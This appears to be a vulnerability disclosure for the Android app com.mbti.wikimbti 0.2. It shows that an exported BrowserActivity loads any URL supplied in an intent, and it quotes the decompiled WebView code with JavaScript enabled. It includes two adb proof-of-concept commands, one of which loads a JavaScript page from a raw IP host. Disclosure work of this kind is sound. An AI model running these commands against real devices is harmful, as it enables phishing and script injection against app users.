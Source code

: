 com.mbti.wikimbti contains an export component BrowserActivity, which allows an attacker to send a malicious URL and open it directly without any filtering or checking.

- package: com.mbti.wikimbti
- version: 0.2
- url: https://os-android.liqucn.com/rj/9639961891368.shtml

```xml
<activity android:theme="@style/Theme.WikiMbti" android:name="com.mbti.wikimbti.mvvm.browser.BrowserActivity" android:exported="true"/>
```

```java
public final class BrowserActivity extends BaseActivity {
    ...
	public final void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        t6.a C = C();
        String stringExtra = getIntent().getStringExtra("intent_key_url");
        if (stringExtra == null || j.f0(stringExtra)) {
            finish();
            return;
        }
        WikiMbtiWebView wikiMbtiWebView = C.f10000p;
        wikiMbtiWebView.setWebChromeClient(new v6.a(this));
        wikiMbtiWebView.setWebViewClient(new v6.b(this));
        wikiMbtiWebView.loadUrl(stringExtra);
    }
```

poc1:

```shell
adb shell am start -n com.mbti.wikimbti/com.mbti.wikimbti.mvvm.browser.BrowserActivity -e "intent_key_url" "http://ip.42.pl/raw"
```

![image-20240415102029224](image-20240415102029224.png)

<img src="Screenshot_20240225-080927.png" alt="Screenshot_20240225-080927" style="zoom: 25%;" />

also,Enabling WebView to use JavaScript can lead to cross-site scripting (XSS) attacks.

```
public final class WikiMbtiWebView extends b {
    /* JADX WARN: 'super' call moved to the top of the method (can break code semantics) */
    public WikiMbtiWebView(Context context, AttributeSet attributeSet) {
        super(context, attributeSet);
        g.e(context, "context");
        WebSettings settings = getSettings();
        settings.setJavaScriptEnabled(true);
        settings.setSupportZoom(true);
        settings.setDefaultTextEncodingName("GBK");
        settings.setUseWideViewPort(true);
        settings.setLoadWithOverviewMode(true);
        settings.setDomStorageEnabled(true);
        settings.setCacheMode(2);
        settings.setTextZoom(100);
        settings.setMixedContentMode(2);
```

poc2:

```shell
adb shell am start -n com.mbti.wikimbti/com.mbti.wikimbti.mvvm.browser.BrowserActivity -e "intent_key_url" "http://21.247.86.44:8000/js.html"
```

![image-20240415115004866](image-20240415115004866.png)

<img src="Screenshot_20240225-093318.png" alt="Screenshot_20240225-093318" style="zoom:25%;" />